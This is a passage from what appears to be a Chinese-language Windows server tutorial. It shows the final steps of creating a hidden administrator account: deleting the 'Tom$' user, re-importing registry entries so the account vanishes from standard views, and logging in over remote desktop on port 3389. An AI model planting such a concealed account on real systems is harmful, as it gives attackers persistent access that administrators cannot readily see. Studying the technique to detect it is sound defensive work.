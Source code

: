 

之后使用命令将隐藏账户删除

~~~
net user Tom$ /del
~~~



此时命令行、计算机管理、注册表都清除了用户信息，然后将注册表文件导入，就形成了隐藏账户，通过远程控制 3389 可以登录管理员账户（主机需要开启允许远程登录）

![image-20210728183213944](images/winserver/image-20210728183213944.png)



远程机器使用命令开启远程桌面连接

~~~
mstsc
~~~


